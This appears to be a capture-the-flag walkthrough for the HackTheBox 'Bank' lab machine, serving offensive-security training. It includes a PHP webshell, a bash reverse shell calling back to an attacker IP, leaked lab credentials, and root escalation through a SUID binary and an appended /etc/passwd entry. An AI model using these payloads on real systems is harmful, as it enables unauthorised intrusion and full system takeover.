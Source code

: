 
# 🏦 HTB: Bank — Command Writeup

[Easy](Easy)

## 🛰️ Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.29
```

### 🔍 Targeted Script & Version Scan
```bash
nmap -p 22,53,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.29
```

### 🔍 UDP Scan (DNS)
```bash
nmap -p- -sU --min-rate 10000 -oA scans/nmap-alludp 10.10.10.29
```

---

## 🌐 DNS & VHost Enumeration

### 🔎 Zone Transfer to Discover Subdomains
```bash
dig axfr bank.htb @10.10.10.29
```

### 📝 Add to /etc/hosts
```
10.10.10.29 bank.htb chris.bank.htb ns.bank.htb www.bank.htb
```

### 🌐 Virtual Host Brute-Force
```bash
wfuzz -u http://10.10.10.29/ -H "Host: FUZZ.bank.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hh 11510
```

---

## 🧪 Web Enumeration [HTTP](HTTP.md)

### 🧱 Gobuster (PHP Extensions)
```bash
gobuster dir -u http://bank.htb \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-x php -t 50 -o scans/gobuster-bank.htb-root-medium-php
```

### 📂 Interesting Results
- `/balance-transfer/` → holds `.acc` files
- `/uploads/` → 403 Forbidden
- `/inc/` → contains internal PHP includes
- `/support.php` → file upload

---

## 🔓 Shell as `www-data`

### 📁 Analyze Balance-Transfer Files
```bash
curl -s http://bank.htb/balance-transfer/ | grep -F '.acc' | wc -l
curl http://bank.htb/balance-transfer/68576f20e9732f1b2edc4df5b8533230.acc
```
> Found one broken file with **plaintext creds**:  
> **Email**: chris@bank.htb  
> **Password**: `!##HTBB4nkP4ssw0rd!##`

### 🔐 Login via Web
> Log in to the portal using `chris / !##HTBB4nkP4ssw0rd!##`

---

## 🛠 Webshell Upload & Execution

### 🛡️ Filter Bypass – Debug Hint Reveals `.htb` Executable Extension

**Webshell**: `cmd.htb`
```php
<?php system($_REQUEST["cmd"]); ?>
```

**Execution**:
```bash
curl http://bank.htb/uploads/cmd.htb?cmd=id
```

### 🐚 Reverse Shell
Listener:
```bash
nc -lnvp 443
```

Payload:
```bash
curl http://bank.htb/uploads/cmd.htb \
--data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.41/443 0>&1"'
```

Shell Upgrade:
```bash
python -c 'import pty; pty.spawn("bash")'
# In local terminal:
stty raw -echo; fg
export TERM=screen
```

---

## 🔐 Privilege Escalation

### 🔍 SUID Binary Method #1 (Backdoor)
```bash
find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency  # Custom SUID root binary

/var/htb/bin/emergency
id && cat /root/root.txt
```

### 🔍 `/etc/passwd` Writable Method #2 (Manual Root User Injection)
```bash
# Create root-equivalent user
openssl passwd -1 0xdf
# Result: $1$q6iY9K5M$eYK1fPmp6OfjbHhWGqZIf0

echo 'oxdf:$1$q6iY9K5M$eYK1fPmp6OfjbHhWGqZIf0:0:0:root:/root:/bin/bash' >> /etc/passwd
su - oxdf
```

---

## 🔍 Beyond Root

### 🔁 Improper Redirects
```php
// /inc/header.php
if(empty($_SESSION['username'])){
  header("location: login.php");
  return;  // ❌ Should be 'exit;' instead
}
```

### 🔍 SUID Analysis
```bash
md5sum /var/htb/bin/emergency
md5sum /bin/dash
# Identical → emergency is renamed dash
```